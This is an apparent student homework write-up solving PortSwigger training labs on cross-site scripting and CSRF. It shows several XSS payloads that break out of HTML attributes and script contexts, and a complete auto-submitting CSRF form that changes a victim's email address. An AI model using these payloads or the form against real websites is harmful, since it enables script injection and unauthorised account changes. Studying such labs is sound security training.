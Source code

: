# Homework 12. Client Side Attacks

## XSS

### Task 1

The [lab](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) is solved by passing malicious payload as search parameter:

```js
    <script>alert('hacked')</script>
```

![task1-payload](taks1-payload.png)

![task1-result](task1-result.png)

![task1-solved](task1-solved.png)

### Task 2

The [lab](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) is solved by passing malicious payload to comment:

![task2-payload](task2-payload.png)

![task2-result](task2-result.png)

![task2-solved](task3-solved.png)

### Task 3

The [lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink) is solved by passing malicious payload payload as search parameter:

![task3-payload](task3-payload.png)

The payload as added as DOM element:

![task3-dom](task3-dom.png)

And the script is executed:

![task3-result](task3-result.png)

And the lab is solved:

![task3-solved](task3-solved.png)

### Task 4

In this [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded) the search parameter is set to `value` attribute of input element:

![task4-dom](task4-dom.png)

So we can pass malicious payload and modify `input` attributes. The payload:

```html
"onmouseover="alert(1)
```

![task4-dom2](task4-dom2.png)

Hovering mouse over input field triggers alert:

![task4-result](task4-result.png)

The lab is solved:

![task4-solved](task4-solved.png)

### Task 5

In this lab [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped) the input is stored in the variable `searchTerms`:

![task5-dom](task5-dom.png)

The malicious payload should close previous script and create a new one:

```html
</script><script>alert(1)</script>
```

![task5-dom2](task5-dom2.png)

It triggers the alert:

![task5-result](task5-result.png)

The lab is solved:

![task5-solved](task5-solved.png)

## CSRF

### Task 6

This [lab](https://portswigger.net/web-security/csrf/lab-no-defenses) is solved by providing html form to exploit server. Once the form is delivered to victim it is automatically submitted by script and email should be changed:

```html
<html>
 <body>
  <form method="POST" action="https://0a3400a603c14083817c753d00c200a1.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="victim@normal-user.net"/>
    <input type="submit" value="Submit">
  </form>
  </body>
  <script>
    document.forms[0].submit();
  </script>
<html>
```

![lab6-solved](lab6-solved.png)
